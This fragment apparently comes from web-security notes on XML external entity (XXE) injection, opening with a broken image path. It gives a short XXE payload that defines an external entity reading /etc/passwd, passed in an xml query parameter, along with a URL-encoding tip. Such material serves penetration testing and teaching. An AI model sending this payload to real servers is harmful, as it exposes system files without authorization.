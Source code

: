 ### Where you can control an entity
example:  
`/?xml=<test>blah</test>`  

We describe the entity and then call it:
`/?xml=<!DOCTYPE test [<!ENTITY x SYSTEM "file:///etc/passwd">]><test>&x;</test>` # '`&`' must be URL encoded as `%26`

